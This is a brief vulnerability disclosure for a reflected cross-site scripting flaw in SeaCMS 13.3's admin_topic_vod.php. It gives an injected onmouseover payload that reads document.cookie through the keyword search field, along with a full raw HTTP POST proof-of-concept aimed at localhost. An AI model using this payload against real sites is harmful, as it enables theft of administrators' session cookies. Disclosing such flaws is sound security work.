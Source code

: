 

<font style="color:rgb(31, 35, 40);">seacms13.3 admin_topic_vod.php reflected xss</font>

<font style="color:rgb(31, 35, 40);">Visit admin_topic_vod.php</font>

<font style="color:rgb(31, 35, 40);"></font>

![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742055581228-e3b12dec-6c08-4b76-97bf-1aa80ea68c8d.png)



input " onmouseover=alert(document.cookie) type="



Click to search 



![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742055732652-08af9a0a-b577-49ca-851b-5460228c7cc2.png)

![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742055758481-5e373ebb-8de7-47ba-8394-8906e17bbcfb.png)



<font style="color:rgb(31, 35, 40);">Slide the mouse</font>

  
 ![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742055775706-783abd54-e05b-42f2-8427-51ae2f57e5b5.png)



<font style="color:rgb(31, 35, 40);">Success pop-up window</font>

  
 poc

> POST /l6bfwk/admin_topic_vod.php?tid=&v_recycled=&jqtype= HTTP/1.1
>
> Host: 127.0.0.1
>
> Content-Length: 170
>
> Cache-Control: max-age=0
>
> sec-ch-ua: "Not-A.Brand";v="99", "Chromium";v="124"
>
> sec-ch-ua-mobile: ?0
>
> sec-ch-ua-platform: "Windows"
>
> Upgrade-Insecure-Requests: 1
>
> Origin: [http://127.0.0.1](http://127.0.0.1)
>
> Content-Type: application/x-www-form-urlencoded
>
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
>
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
>
> Sec-Fetch-Site: same-origin
>
> Sec-Fetch-Mode: navigate
>
> Sec-Fetch-User: ?1
>
> Sec-Fetch-Dest: document
>
> Referer: [http://127.0.0.1/l6bfwk/admin_topic_vod.php?tid=&v_recycled=&jqtype=](http://127.0.0.1/l6bfwk/admin_topic_vod.php?tid=&v_recycled=&jqtype=)
>
> Accept-Encoding: gzip, deflate, br
>
> Accept-Language: zh-CN,zh;q=0.9
>
> Cookie: PHPSESSID=osjulp4k6lpsslmg83o5b2i150
>
> Connection: close
>
> 
>
> keyword=%22+onmouseover%3Dalert%28document.cookie%29+type%3D%22&type=&selectBtn=%E6%9F%A5%E8%AF%A2%E6%88%96%E9%87%8D%E7%BD%AE&v_playfrom=&area=&year=&yuyan=&ver=&commend=
>


